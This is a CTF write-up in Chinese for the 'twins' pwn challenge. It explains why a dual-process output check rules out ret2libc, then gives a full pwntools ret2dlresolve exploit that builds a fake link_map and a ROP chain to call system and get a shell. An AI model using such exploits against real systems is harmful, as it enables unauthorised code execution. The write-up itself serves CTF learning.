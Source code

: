 ## twins

`checksec`看到只开了NX，程序是一个简单的栈溢出程序，除此之外还给出了一个py文件。

不考虑py文件的话直接ret2libc就可以解决，但那是不可能的

观察python文件种如下函数

```python
while a1 and a2:
    line = sys.stdin.buffer.readline()
    out1, a1 = interact(p1, line)
    out2, a2 = interact(p2, line)
    if out1 != out2:
        print("Output conflict!", flush=True)
        print(f'process 1: {out1}', flush=True)
        print(f'process 2: {out2}', flush=True)
        break
    else:
        print(out1[:-1].decode(), flush=True)
```

远程会同时运行p1，p2两个进程，上述函数表示程序的输出只能一致，否则直接结束，因此考虑到ret2libc必须要泄露libc，而两个程序的libc基址由于存在ASLR机制，因此不可能一致。所以我们可以把这个程序看作一个无输出的栈溢出程序，考虑ret2dlresolve，构造的时候发现工具构造打不通，所以网上随便找个模板然后改下某些值直接用（主要还是因为我是langou，不想自己写

exp：

```python
#!/usr/bin/env python3
from pwn import*
context.log_level = 'debug'
context.arch = 'amd64'

p = process('./twins')
#p = remote("localhost",43677)
elf = ELF('./twins')
libc=  ELF('./libc-2.31.so')

#attach(p)
#pause()

def build_fake_link_map(elf,fake_linkmap_addr,one_got,offset):
	target_addr = fake_linkmap_addr-8       #the result you write in
	linkmap = p64(offset & (2**64-1))       #l_addr
	linkmap = linkmap.ljust(0x68,b'\x00')
	linkmap += p64(fake_linkmap_addr)       #l_info[5] dynstr
	linkmap += p64(fake_linkmap_addr+0x100) #l_info[6] dynsym
	linkmap = linkmap.ljust(0xf8,b'\x00') 
	linkmap += p64(fake_linkmap_addr+0x110) #l_info[23] jmprel
	linkmap += p64(0)+p64(one_got-8)        #dynmic symtab
	linkmap += p64(0)+p64(fake_linkmap_addr+0x120) #dynmic jmprel
	linkmap += p64(target_addr-offset)+p64(7)+p64(0) #fake_jmprel
	return linkmap

plt0 = elf.get_section_by_name('.plt').header.sh_addr
fake_link_map_addr = 0x00404000 +0x500
fake_link_map = build_fake_link_map(elf,fake_link_map_addr,elf.got['gets'],libc.sym['system']-libc.sym['gets'])
sh_addr = fake_link_map_addr + len(fake_link_map)
prdi = 0x401283
prsi_r15 = 0x401281
payload = 0x18*b'\x00'+p64(prdi)+p64(fake_link_map_addr)+p64(elf.plt['gets'])
payload += p64(prdi) + p64(sh_addr) + p64(plt0+6)+p64(fake_link_map_addr)+p64(0)
payload = payload.ljust(0x200,b'\x00')
p.sendline(payload)

```